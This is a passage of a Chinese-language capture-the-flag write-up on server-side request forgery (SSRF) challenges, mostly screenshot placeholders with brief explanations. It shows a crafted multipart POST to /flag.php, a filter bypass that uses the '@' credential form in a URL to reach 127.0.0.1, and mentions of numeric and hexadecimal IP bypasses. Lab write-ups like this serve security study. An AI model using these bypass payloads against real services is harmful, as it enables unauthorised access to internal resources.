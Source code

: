 写上提交代码<input type="submit" name="submit">

![image-20241016135325137](D:\ctf wp\40.1.assets\image-20241016135325137.png)

上传后抓包分析 编写post请求

POST /flag.php HTTP/1.1
Host: 127.0.0.1
Content-Length: 292
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary1lYApMMA3NDrr2iY

------WebKitFormBoundary1lYApMMA3NDrr2iY
Content-Disposition: form-data; name="file"; filename="test.txt"
Content-Type: text/plain

SSRF Upload
------WebKitFormBoundary1lYApMMA3NDrr2iY
Content-Disposition: form-data; name="submit"

提交
------WebKitFormBoundary1lYApMMA3NDrr2iY--

同上题 两次编码 （这次用bp）

![image-20241016135519933](D:\ctf wp\40.1.assets\image-20241016135519933.png)

## 10.URL bypass (11种SSRF绕过方法)

![image-20241016140317749](D:\ctf wp\40.1.assets\image-20241016140317749.png)

查找资料可以使用HTTP 基本身份认证绕过：

​    HTTP 基本身份认证允许 Web 浏览器或其他客户端程序在请求时提供用户名和口令形式的身份凭证的一种登录验证方式。也就是：`http://www.xxx.com@www.yyy.com`形式

所以构造payload ：?url=http://notfound.ctfhub.com@127.0.0.1/flag.php

![image-20241016140502866](D:\ctf wp\40.1.assets\image-20241016140502866.png)

## 11.数字IP Bypass

![image-20241016140745597](D:\ctf wp\40.1.assets\image-20241016140745597.png)

![image-20241016141652866](D:\ctf wp\40.1.assets\image-20241016141652866.png)

尝试用其他进制 如十六进制

![image-20241016141938479](D:\ctf wp\40.1.assets\image-20241016141938479.png)



## 12.302跳转BYpass

![image-20241016142900946](D:\ctf wp\40.1.assets\image-20241016142900946.png)
